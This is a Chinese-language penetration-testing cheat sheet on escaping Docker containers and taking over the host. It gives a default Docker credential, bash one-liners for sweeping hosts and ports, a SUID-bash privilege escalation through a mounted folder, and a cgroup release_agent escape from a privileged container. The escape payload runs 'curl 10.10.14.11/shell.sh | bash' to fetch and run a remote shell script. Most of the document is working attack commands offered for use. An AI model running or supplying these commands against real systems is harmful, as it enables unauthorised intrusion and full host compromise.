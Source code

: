 # Linux
##### 判断 docker
```
ip a 显示 c 类
根目录存在 .dockerenv 
```

**Docker 默认凭据：**
docker ：tcuser
##### 枚举网络
枚举存活主机
```bash
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
枚举主机开放端口
```bash
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

##### 逃逸方法
###### - 如果 home 目录中有户文件夹，且 `/etc/passwd` 中没有该用户，且显示文件夹属主为 id 而不是用户名：
（猜测此主目录已从主机装载到容器中）
```
mount | grep <File Name(用户名)>
```

如果开放了22端口，大概率存在密码重用。


##### 提权方法
如果 docker 中的 user 是 root，并有文件是从主机中 mount 过来的，那就可以在**主机中**复制一份 /bin/bash 到 docker mount 的文件夹下，然后在 docker 中使用 root 用户赋予 bash rwsrwxrwx , 然后 ssh 登录主机，可以看到在 docker 中 root 用户修改权限，拥有 SUID 的 bash，直接 bash -p 提权至主机 root
```
cp /bin/bash .                         (在主机中 不是在docker中)
chown root:root ./bash                 (docker中root用户修改权限)
chmod 777 ./bash ; chmod u+s ./bash    (docker中root用户修改权限)
```


### docker -compose.yml 中 `privileged` 值为 true
意味着容器在主机上具有 root 权限
```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.14.11/shell.sh | bash' >/c;
建立监听，服务器后执行
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

